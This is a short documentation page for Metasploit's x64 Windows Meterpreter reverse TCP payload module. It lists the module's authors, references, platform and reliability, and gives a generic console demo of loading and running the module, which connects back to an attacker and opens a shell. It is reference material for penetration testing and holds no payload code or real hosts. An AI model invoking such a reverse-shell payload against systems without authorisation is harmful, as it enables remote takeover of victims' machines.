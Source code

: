 ## Windows Meterpreter Shell, Reverse TCP Inline x64

Connect back to attacker and spawn a Meterpreter shell


## Module Name
payload/windows/x64/meterpreter_reverse_tcp

## Authors
* OJ Reeves
* sf


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/x64/meterpreter_reverse_tcp
msf payload(meterpreter_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(meterpreter_reverse_tcp) > set TARGET <target-id>
msf payload(meterpreter_reverse_tcp) > show options
   ... show and set options ...
msf payload(meterpreter_reverse_tcp) > run
```
    
    